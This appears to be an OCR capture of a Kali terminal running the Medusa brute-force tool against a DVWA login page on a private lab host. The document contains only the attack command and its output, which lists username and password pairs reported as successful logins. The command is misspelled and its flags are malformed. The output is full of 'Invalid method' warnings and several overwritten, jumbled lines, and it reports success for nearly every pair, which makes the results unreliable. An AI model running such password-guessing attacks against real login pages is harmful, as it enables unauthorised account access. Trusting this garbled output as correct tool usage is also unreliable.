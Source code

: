 ┌──(root㉿kali)-[/home/kali]
└─# mmedusa -h192.168.57.3 --U user.txt -P pass.txt -Mhttp --mPAGE:""/dvwa/login.php" -mPAGE: ''username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t6
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

WARNING: WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
2025-10-29 12:34:54 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: 123456 (1 of 4 complete)
2025-10-29 12:34:54 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: msfadmin Password: 123456 [SUCCESS]
2025-10-29 12:34:54 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 2 complete) Password: password (1 of 4 complete)
2025-10-29 12:34:54 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: password [SUCCESS]
2025-10-29 12:34:54 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 3 complete) Password: 123456 (2 of 4 complete)
2025-10-29 12:34:54 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: 123456 [SUCCESS]
oot (3 of 3, 4 complete) Password: 123456 (1 of 4 complete)3 (1 of 1, 0 complete) User: admin
oot Password: 123456 [SUCCESS]UND: [http] Host: 192.168.57.3 User: admin
oot (3 of 3, 5 complete) Password: msfadmin (2 of 4 complete)(1 of 1, 0 complete) User: admin
oot Password: msfadmin [SUCCESS]D: [http] Host: 192.168.57.3 User: admin
2025-10-29 12:34:54 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 6 complete) Password: qwerty (3 of 4 complete)
2025-10-29 12:34:54 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: qwerty [SUCCESS]
2025-10-29 12:34:54 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 7 complete) Password: msfadmin (4 of 4 complete)
2025-10-29 12:34:54 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: msfadmin [SUCCESS]
oot (3 of 3, 8 complete) Password: qwerty (3 of 4 complete)3 (1 of 1, 0 complete) User: admin
oot Password: qwerty [SUCCESS]UND: [http] Host: 192.168.57.3 User: admin
2025-10-29 12:34:54 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 9 complete) Password: msfadmin (2 of 4 complete)
2025-10-29 12:34:54 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: msfadmin Password: msfadmin [SUCCESS]
                                                                                                           